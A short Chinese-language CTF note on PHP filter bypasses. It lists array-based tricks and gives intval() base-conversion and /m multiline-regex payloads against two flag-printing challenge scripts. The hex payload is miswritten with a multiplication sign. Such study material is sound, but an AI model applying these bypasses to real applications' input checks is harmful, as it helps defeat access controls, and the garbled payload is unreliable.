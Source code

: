 <a href="https://www.jianshu.com/p/8e3b9d056da6?utm_campaign=maleskine">利用数组绕过小结</a>
```
1. 数组绕过md5判断
2. 数组绕过strcmp
3. 数组绕过ereg(存在%00 截断)
4. php的弱类型+数组绕过正则
```


### <font color="yellow">intval</font>
```php
<?php
include("flag.php");
highlight_file(__FILE__);
if(isset($_GET['num'])){
    $num = $_GET['num'];
    if($num==="4476"){
        die("no no no!");
    }
    if(intval($num,0)===4476){
        echo $flag;
    }else{
        echo intval($num,0);
    }
} 
```
利用 intval() base=0  进制绕过
payload
```php
?num=0×117c    //十六进制
?num=010574    //八进制
```
intval取的是我们所输入内容开头的整数
```php
?num=4476a    //字符串
```
#### <font color="yellow">/m 多行匹配绕过</font>

```php
 <?php
show_source(__FILE__);
include('flag.php');
$a=$_GET['cmd'];
if(preg_match('/^php$/im', $a)){
    if(preg_match('/^php$/i', $a)){
        echo 'hacker';
    }
    else{
        echo $flag;
    }
}
else{
    echo 'nonononono';
}
```
分析:
```
/i 表示匹配的时候不区分大小写
/m 表示多行匹配，什么是多行匹配呢？就是匹配换行符两端的潜在匹配。影响正则中的^$符号
```
payload
```php
?cmd=1%0aphp
```
